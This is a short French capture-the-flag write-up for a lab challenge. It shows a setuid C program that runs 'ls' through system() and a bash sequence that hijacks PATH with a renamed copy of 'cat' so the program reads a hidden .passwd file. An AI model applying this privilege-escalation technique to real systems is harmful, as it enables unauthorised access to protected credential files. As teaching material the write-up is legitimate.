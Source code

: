 # Contournement des droits

Dans cet exemple, nous avons une machine où nous cherchons à trouver un fichier caché contenant un flag.

```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}

```

Nous avons accès à ce fichier, nous l'exécutons et remarquons qu'il effectue une commande 'ls' qui indique le chemin du fichier.

Nous ne pouvons pas utiliser la commande "cat" sur le fichier caché.

Nous pouvons donc suivre les étapes suivantes :

```bash
mkdir /tmp/vuln
cp /bin/cat /tmp/vuln/
mv /tmp/vuln/cat /tmp/vuln/ls
export PATH=/tmp/vuln:$PATH
echo $PATH

```

Nous créons un dossier dans /tmp/, copions le fichier de la commande "cat", le renommons en "ls", puis modifions le chemin pour l'exécution.

Il suffit ensuite d'exécuter le script pour voir le contenu du fichier.
